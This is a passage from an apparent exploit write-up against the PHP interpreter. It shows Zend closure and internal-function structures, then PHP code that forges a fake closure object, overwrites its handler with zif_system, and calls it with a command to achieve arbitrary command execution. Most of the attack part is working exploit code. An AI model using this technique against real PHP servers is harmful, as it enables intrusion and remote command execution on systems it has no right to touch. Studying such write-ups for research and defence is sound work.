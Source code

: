 Our exploit has all the ingredients ready, except from the last one: jumping into the target function. In order to call `zif_system` we are going to add a closure to our helper object and overwrite it. Closures are anonymous functions with the following structure:

```c
typedef struct _zend_closure {
    zend_object std;
    zend_function func;
    zval this_ptr;
    zend_class_entry *called_scope;
    zif_handler orig_internal_handler;
} zend_closure;
```

If we look carefully we can see that one of the members is a `zend_function` structure:

```c
union _zend_function {
	zend_uchar type;	/* MUST be the first element of this struct! */
	zend_op_array op_array;
	zend_internal_function internal_function;
};
```

And `zend_internal_function` is:

```c
typedef struct _zend_internal_function {
    /* Common elements */
    zend_uchar type;
    zend_uchar arg_flags[3]; /* bitset of arg_info.pass_by_reference */
    uint32_t fn_flags;
    zend_string* function_name;
    zend_class_entry *scope;
    zend_function *prototype;
    uint32_t num_args;
    uint32_t required_num_args;
    zend_internal_arg_info *arg_info;
    /* END of common elements */
    zif_handler handler;
    struct _zend_module_entry *module;
    void *reserved[ZEND_MAX_RESERVED_RESOURCES];
} zend_internal_function;
```

We can see the `handler` member. So the plan is easy:

1. Copy the original `zend_closure` structure to other part
2. Patch the `$helper` object to point to this new location instead of the original
3. Patch the `handler` member to point to our `zif_system`
4. Call the closure

The resultant code:

```php
//...
$this->helper->b = function ($x) { };
//...
$fake_obj_offset = 0xd8;
for ($i = 0; $i < 0x110; $i += 8) {
	$this->write($this->placeholder, $fake_obj_offset + $i, $this->leak($closure_addr-0x10+$i));
}
$fake_obj_addr = $placeholder_addr +  $fake_obj_offset + 0x18;
print "\n[+] Fake Closure addr:\n0x" . dechex($fake_obj_addr);
$this->write($this->placeholder, 0x20, $fake_obj_addr);
$this->write($this->placeholder, $fake_obj_offset + 0x38, 1, 4); # internal func type
$this->write($this->placeholder, $fake_obj_offset + 0x68, $system); # internal func handler
     
($this->helper->b)($cmd);
```